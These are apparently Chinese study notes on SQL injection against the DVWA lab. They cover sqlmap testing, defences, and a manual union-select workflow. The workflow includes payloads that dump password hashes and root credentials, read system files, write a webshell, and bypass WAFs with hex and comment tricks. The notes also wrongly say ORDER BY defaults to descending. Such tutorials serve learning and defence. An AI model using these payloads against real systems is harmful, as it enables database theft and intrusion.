

## 0x00 SQL注入漏洞描述
Web程序代码中，对用户提交的参数未作过滤就直接放到SQL语句中执行，导致参数中的特殊字符打破了SQL语句的原有逻辑，攻击者可以利用该漏洞执行任意SQL语句，包括查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。  
两个必要条件：1.参数可控 2.传入参数拼接到sql语句中，且带入数据库查询。

## 0x01 测试方法
工具：使用sqlmap进行SQL注入的检查或者利用，也可以使用其他的SQL注入工具；  
手工测试：利用单引号、and 1=1，and 1=2以及字符型注入进行判断；  
实践中，可以使用burpsuite的sqlmap插件，可以直接把数据包发送到sqlmap里进行检测。

## 0x02 防御方法 ⭐
代码层防御SQL注入漏洞的最佳方法：采用sql语句预编译和绑定变量；
1. 所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中。当前几乎所有的数据库系统都提供了参数化 SQL 语句执行接口，使用此接口可以非常有效的防止 SQL 注入攻击。（参数化查询接口如何使用？代码层如何编写？）
2. 对进入数据库的特殊字符（ ' <>&*; 等）进行转义或编码处理；
3. 确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为 int 型（如果没有指定好类型会造成什么影响？如何利用数据类型设置混乱进行攻击？）；
4. 严格规定数据长度，能让比较长的SQL注入语句无法正确执行；
5. 网站的每个数据层编码统一，建议全部使用UTF-8编码，上下层编码不一致有可能导致一些过滤模型被绕过（如何利用数据层编码不一致绕过过滤限制？比如网页编码是GBK，数据库的编码是UTF-8，如何进行绕过？）；
6. 严格限制网站用户的数据库的操作权限，给网站用户提供仅能够满足其工作的权限，最大限度减少注入攻击对数据库造成的危害；
7. 避免网站显示sql错误信息，比如类型错误、字段不匹配等，防止攻击者利用错误信息进行一些判断。错误提示是给管理员看的，不应该让网站用户看到。（在哪里关闭错误回显？网站设置还是后端代码设置？）

## 0x03 burpsuite配置sqlmap插件
首先需要在BApp Store中找到CO2并且install安装，然后到CO2对应的 $SQLMapper$ 模块进行配置，要选择sqlmap工具（sqlmap.py）的路径和python环境的路径(python.exe)。配置完成后，把抓取到的数据包右键发送到 $SQLMapper$ 中，对 $SQLMapper$ 的options做一些适应性调整修改后就可以进行测试了。

## 0x04 MySQL注入相关知识
在MySQL5版本之后，MySQL默认会有一个information_schema这个库，存放数据库的一些元信息，库中包含很多表，重点是columns、tables和schemata这三个表：
1. COLUMNS：存放表里面的字段名，非常细致的一个大表，包含了SCHEMA_NAME（数据库名）、TABLE_NAME（表名）、COLUMN_NAME（字段名）；
2. TABLES：存放了数据库和数据库对应的表名，TABLE_SCHEMA（数据库名）和TABLE_NAME（表名）；
3. SCHEMATA：表中存放了每个数据的名称，在SCHEMA_NAME字段；  
COLUMNS这个表的信息涵盖最全，包括所有数据库的库名、表名和字段名。如下图所示：
  
查询指定库的指定表方法，例如：通过 infomation_schema 查询 dvwa 库里所有的表和字段：
```sql
SELECT * FROM information_schema.`COLUMNS` where TABLE_SCHEMA='dvwa'

SELECT * FROM information_schema.`COLUMNS` where TABLE_SCHEMA='dvwa' and TABLE_NAME='users'
```
## 0x05 三种SQL注释符
- 单行注释 # 注意与URL中的井号区分；
- 单行注释 -- 注意是短线短线空格；
- 多行注释 /*()*/ /**/常用来作为空格；（/\*\*/常用来作为空格是什么意思？）

## 0x06 /**/起到什么作用？
/**/作为一种注释方式，在SQL注入过程中常用于代替空格，来绕过简单的SQL防护机制或防火墙规则。某些安全机制会检测 SQL 语句中的空格符号来识别潜在的注入攻击，通过将空格替换为 /\*\*/，可以有效绕过这些检测规则。例如：select/\*\*/user();

## 0x07 SQL注入流程
1. 首先判断是否存在注入和注入类型；
2. 判断字段数 order by；
3. 确定回显点 union select 1,2；
4. 查询数据库信息 @@version（数据库服务器版本信息）  @@datadir（mysql存储数据路径）；
5. 查询用户名和数据库名 user()  database() 
6. 文件读取 union select 1, loadfile('C:\\windows\\win.ini') ；
7. 写入webshell select ... into outfile ...；  
补充点：使用sql注入遇到转义字符串的单引号或者双引号，可使用HEX编码绕过。

## 0x08 SQL语法-orderby解析
在sql语句中，ORDER BY被用来对查询结果排序，可以选择升序或者降序，ASC是升序，DESC是降序，默认情况下采用降序排列。  
order by在sql注入过程中被用来判断数据库表中的字段个数，默认情况下使用order by 1,2,3; 等来进行字段数判断。（其中order by 1,2,3; 表示按照查询结果中的第一列、第二列、第三列的顺序进行排序，如果第一列值相同，则用第二列的值来比较）  
比如下面这个表，我们可以order by 1,2,3,4; 正常查询排列，但是一旦加上5就会报错，因为这个表一共就只有有4个字段。
```bash
mysql> select * from users order by 1,2,3,4;
+----+----------+----------+-------------------+
| id | username | password | email             |
+----+----------+----------+-------------------+
|  1 | admin    | 123456   | moon@moonsec.com  |
|  2 | moonsec  | 123456   | admin@moonsec.com |
|  3 | moonsec  | 123456   | admin@moonsec.com |
+----+----------+----------+-------------------+
3 rows in set (0.00 sec)

mysql> select * from users order by 1,2,3,4,5;
ERROR 1054 (42S22): Unknown column '5' in 'order clause'
```

## 0x09 SQL注入分类
按照sqlmap中的分类来看，sql注入可以分为以下5种类型：
1. UNION query SQL injection：联合查询注入；
2. stacked queries SQL injection：堆叠注入，可多语句查询注入；
3. Boolean-based SQL injection：布尔型注入；
4. Error-based SQL injection：报错型注入；
5. Time-based blind SQL injection：基于时间的延迟注入；  
按照请求方式来进行区分，可以分为三种：
1. GET注入：GET请求的参数放在URL中，传参有长度限制，中文需要URL编码；
2. POST注入：POST请求参数放在body里，长度没有限制；
3. COOKIE注入：cookie参数放在请求头信息中，提交时服务器从请求头获取；  
按照注入数据类型进行区分：
1. 整形注入 int： where id = 1 ；
2. 字符型注入 string： where username = 'admin' ；
3. 搜索型注入 like： where title like '%标题%' ；

## 0x10 union select联合查询
在SQL注入中，可以通过union select 确定数据库信息回显位置，并执行相应的攻击操作。union select联合查询结果必须与前一个查询结果有相同字段数，否则无法正常显示。
```bash
mysql> select * from users union select 1,2,3,4;
+----+----------+----------+-------------------+
| id | username | password | email             |
+----+----------+----------+-------------------+
|  1 | admin    | 123456   | moon@moonsec.com  |
|  2 | moonsec  | 123456   | admin@moonsec.com |
|  3 | moonsec  | 123456   | admin@moonsec.com |
|  1 | 2        | 3        | 4                 |
+----+----------+----------+-------------------+
4 rows in set (0.00 sec)
```
## 0x11 SQL注入常规利用思路
1. 首先寻找注入点，结合工具和手工判断；
2. 通过注入点，尝试获取数据库用户名、数据库名、连接数据库用户权限、操作系统信息、数据库版本等相关信息；
3. 猜解关键数据库表及其重要字段与内容（如存放管理员账户的表名、字段名等信息）；
4. 获取数据库的root账号与密码；
5. 通过拿到的用户信息找后台登录，利用后台进行进一步渗透；

## 0x12 SQL手工注入常规思路
1. 寻找注入点，判断是否存在注入，字符型还是数字型；
2. 猜解查询结果的字段数，利用order by N；
3. 确定显示字段的位置和顺序；
4. 获取当前数据库名->数据表名->字段名；
5. 查询敏感数据信息； 

## 0x13 SQL手工注入过程详解
```bash
# 1.确定字段数
order by 3 #报错，表示可以显示2行字段

# 2.猜解数据库
'1' union select 1,database()
# payload另一种方式：
'1' union select user(),database(),version() #根据字段个数确定回显信息
mysql> select first_name,password from users union select user(),database();
+----------------+----------------------------------+
| first_name     | password                         |
+----------------+----------------------------------+
| admin          | 5f4dcc3b5aa765d61d8327deb882cf99 |
| Gordon         | e99a18c428cb38d5f260853678922e03 |
| Hack           | 8d3533d75ae2c3966d7e0d4fcc69216b |
| Pablo          | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| Bob            | 5f4dcc3b5aa765d61d8327deb882cf99 |
| root@localhost | dvwa                             |
+----------------+----------------------------------+
6 rows in set (0.00 sec)

# PS：union select结合了两个select查询结果，根据上面的 order by 语句我们知道查询包含两列
# 为了能够实现两列查询结果，我们需要用union查询结合我们构造的另外一个select。
# 注意在使用 union 查询的时候需要和主查询的列数相同。

# 3.知道数据库名之后，我们要猜解表名
mysql>  select first_name,password  from users where user_id = 1 union select 1,group_concat(table_name) from information_schema.TABLES where table_schema = 'dvwa';
+------------+----------------------------------+
| first_name | password                         |
+------------+----------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 1          | guestbook,users                  |
+------------+----------------------------------+
2 rows in set (0.01 sec)

# 4.得到dvwa数据库中包含了guestbook,users两个数据表，之后要猜解字段名：
mysql> select first_name,password  from users where user_id = 1 union select 1,group_concat(column_name) from information_schema.COLUMNS where table_schema='dvwa' and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | password                                                                  |
+------------+---------------------------------------------------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99                                          |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.00 sec)
# 另外一种payload写法：
mysql> select first_name,password  from users where user_id = 1 union select 1,group_concat(column_name) from information_schema.COLUMNS where table_schema='dvwa' and table_name=0x7573657273;
+------------+---------------------------------------------------------------------------+
| first_name | password                                                                  |
+------------+---------------------------------------------------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99                                          |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.00 sec)

# PS：(用编码就不用单引号，用单引号就不用编码）
# 使用十六进制编码（Hex编码）可以有效绕过基于字符串检测的安全机制和Web应用防火墙（WAF）
# 5.获取敏感用户信息
mysql> select first_name,password  from users where user_id = 1 union select group_concat(user),group_concat(password) from users;
+---------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| first_name                      | password                                                                                                                                                             |
+---------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| admin                           | 5f4dcc3b5aa765d61d8327deb882cf99                                                                                                                                     |
| admin,gordonb,1337,pablo,smithy | 5f4dcc3b5aa765d61d8327deb882cf99,e99a18c428cb38d5f260853678922e03,8d3533d75ae2c3966d7e0d4fcc69216b,0d107d09f5bbe40cade3de5c71e9e9b7,5f4dcc3b5aa765d61d8327deb882cf99 |
+---------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
2 rows in set (0.00 sec)
# PS：其他payload写法
select first_name,password  from users where user_id = 1 union select 1,group_concat(concat_ws(char(32,58,32),user,password)) from users;

mysql> select first_name,password  from users where user_id = 1 union select 1,concat_ws(char(32,58,32),user,password) from users;
+------------+--------------------------------------------+
| first_name | password                                   |
+------------+--------------------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99           |
| 1          | admin : 5f4dcc3b5aa765d61d8327deb882cf99   |
| 1          | gordonb : e99a18c428cb38d5f260853678922e03 |
| 1          | 1337 : 8d3533d75ae2c3966d7e0d4fcc69216b    |
| 1          | pablo : 0d107d09f5bbe40cade3de5c71e9e9b7   |
| 1          | smithy : 5f4dcc3b5aa765d61d8327deb882cf99  |
+------------+--------------------------------------------+
6 rows in set (0.00 sec)

# concat_ws作用：将多列的值按指定的分隔符连接起来。
# char(32,58,32) 实际上是表示空格、冒号和空格（即 : ），表示输出的格式将是 user : password 的格式。
# 6.猜解root用户与密码
select first_name,password from users where user_id=0 union select 1,group_concat(user,authentication_string) from mysql.user;
# 返回 root*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
```

## 0x14 union联合注入原理
联合查询注入是联合两个表进行注入攻击，使用关键字union select 对两个表进行联合查询。要注意两个表的字段数要相同，不然会报错，错误是 different number of columns。  
order by N 或者 union select 1,2,3,4,5,6,7,...,N，通过这种方式可以判断查询结果的字段数。  
如果只想要一行数据，就在sql语句后添加 $limit 1$，即为只显示1行数据。

## 0x15 --+的作用
--是标准的SQL注释符，--后面的内容被视为注释，SQL引擎会忽略他们。一般情况下，空格字符可能会被过滤或者触发WAF相关规则，所以使用 $+$ 代替空格，在URL编码中，$+$被视为空格的编码形式，所以用$+$代替空格来达到绕过防护的目的。

